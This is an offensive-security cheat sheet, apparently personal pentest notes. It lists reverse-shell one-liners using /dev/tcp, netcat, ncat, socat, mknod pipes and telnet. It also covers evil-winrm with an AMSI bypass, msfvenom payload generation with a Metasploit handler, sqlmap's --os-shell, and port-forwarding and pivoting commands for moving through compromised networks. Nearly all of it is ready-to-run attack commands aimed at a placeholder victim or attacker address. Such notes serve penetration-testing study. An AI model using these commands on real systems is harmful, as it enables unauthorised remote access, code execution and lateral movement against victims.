# [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <username> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
#### `evil-winrm -i X.X.X.X -u <username> -e <path/on/attack>`
#### `Invoke-Binary <path/to/csharpexe>`
#### `Donut-Loader`
#### `Bypass-4MSI`
  * -s allows you to load powershell scripts from Kali to the victim
  * Invoke-Binary runs C# executables in memory; the executables must be in the path set by the -e flag in the prior command
  * Donut-Loader and Bypass-4MSI look useful but I don't know how to use them yet

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/):
#### `msfconsole -q`
#### `use multi/handler`
  * Metasploit can do a million things, but a few that stand out as useful might be listed here
  * -q runs it in quiet mode for less text
  * Set up the multi handler to match payloads created with msfvenom to catch staged or unstaged payloads
  
# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports
  
# [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts):
#### `netsh interface portproxy add v4tov4 listenport=YYY listenaddress=X.X.X.X connectport=BBB connectaddress=A.A.A.A`
#### `netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=X.X.X.X localport=YYY action=allow`  
  * Above interface command creates a listener on X.X.X.X:YYY that forwards to A.A.A.A:BBB
  * Above advfirewall command creates a firewall rule that allows inbound traffic to X.X.X.X:YYY

# [proxychains](https://www.unix.com/man-page/debian/1/proxychains/):
#### `cat /etc/proxychains.conf`
#### `socks4 127.0.0.1 YYY`
#### `proxychains command`
  * Combine with `ssh -N -D` to source a given command through a pre-established tunnel
    * For instance you could nmap a machine on an internal network from an already-compromised host on that network

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html):
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink <username>@X.X.X.X`
#### `ssh <username>@X.X.X.X`
#### `ssh -i ~/.ssh/keyfile username@X.X.X.X`
  * Establishes secure shell on the remote host with the provided username and password
  * -i specifies a key file to instead of a password
  * -p defines a port to connect to in the case on non-standard ssh ports
  * See pairing with [tunneling flags](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#ssh) and Proxychains [proxies.md](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#proxychains) for pivoting around a compromised network

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

